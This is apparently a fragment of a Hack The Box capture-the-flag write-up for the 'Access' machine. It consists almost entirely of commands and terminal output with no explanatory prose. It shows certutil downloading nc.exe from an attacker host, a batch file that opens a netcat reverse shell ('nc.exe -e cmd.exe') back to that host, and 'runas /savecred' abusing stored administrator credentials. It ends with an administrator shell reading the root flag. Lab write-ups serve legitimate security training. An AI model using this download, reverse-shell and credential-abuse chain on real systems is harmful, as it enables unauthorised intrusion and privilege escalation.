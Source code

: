 ```
PS C:\Users\security> certutil -urlcache -f http://10.10.14.23/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.23 4444 > shell.bat
runas /user:administrator /savecred c:\users\security\shell.bat
```

```
root@darkisland:~/hackthebox/Machines/Access# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.98] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
6e1586<redacted>
```
